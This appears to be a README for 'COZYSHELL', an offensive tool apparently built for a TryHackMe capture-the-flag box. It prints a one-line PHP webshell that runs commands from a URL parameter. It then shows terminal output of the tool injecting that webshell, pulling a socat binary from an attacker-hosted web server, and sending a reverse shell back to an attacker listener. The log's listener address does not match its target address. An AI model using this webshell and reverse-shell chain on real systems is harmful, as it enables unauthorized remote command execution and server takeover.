 
COZYSHELL
  **Developed for the 'year of the dog' THM box, use it with caution and responsability**

- First we need to upload a webshell like the one bellow.
```php
  <?php echo shell_exec($_GET["cmd"]); ?>
```
```txt
┌──(root㉿kali)-[~/cozyshell]
└─# ../t.py -u http://10.10.44.102/
[*] Injecting webshell at http://10.10.44.102/cae822a9.php
[*] Success! We got a webshell as www-data
```
---
- Now we can quickly upgraded to a nice and cozy interactive shell
```
┌──(root㉿kali)-[~/cozyshell]
└─# ./cozyshell --url http://10.10.44.102/cae822a9.php --lhost 10.13.21.200 --lport 8443 
[*] Uploading socat binary to /var/www/html/c233735f
[*] Starting Webserver
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.44.102 - - [06/Jan/2024 18:56:53] "GET /bin HTTP/1.1" 200 -
[*] Finished uploading socat!
[*] Killing Webserver process
[*] Starting reverse shell handler on tty /dev/pts/1
[*] Paste CMD: export TERM=screen; stty rows 59 cols 116
[*] Sending encrypted reverse shell to 10.13.42.125:8443
<www/html$ export TERM=screen; stty rows 59 cols 116
www-data@year-of-the-dog:/var/www/html$ pwd
/var/www/html
www-data@year-of-the-dog:/var/www/html$ ls
assets	c233735f  cae822a9.php	config.php  index.php
www-data@year-of-the-dog:/var/www/html$ exit
exit
[*] Finished executing interactive shell
[*] Success
```


